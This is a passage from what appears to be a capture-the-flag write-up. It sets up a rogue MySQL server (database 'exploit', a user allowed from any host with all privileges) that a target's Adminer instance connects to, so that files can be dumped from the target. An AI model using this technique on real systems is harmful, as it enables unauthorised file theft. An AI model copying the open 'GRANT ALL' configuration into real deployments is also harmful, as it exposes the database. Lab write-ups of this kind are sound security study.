 Create our database for adminer to connect to.

```sql
CREATE DATABASE exploit;
```

Create a user so that we can connect from Adminer.

```sql
CREATE USER 'exploituser'@'%' IDENTIFIED BY 'exploitpass';
```

Give the user privileges to connect remotely.

```sql
GRANT ALL ON *.* TO 'exploituser'@'%';
```

Nearly there, just need to flush privileges.

```sql
FLUSH PRIVILEGES;
```

And then restart the mysql service.

```bash
sudo service mysql restart
```

## Dumping a file from Adminer

Then we can connect to our database from Adminer.

![database_connect](/assets/img/posts/admirer/database_connect.png)

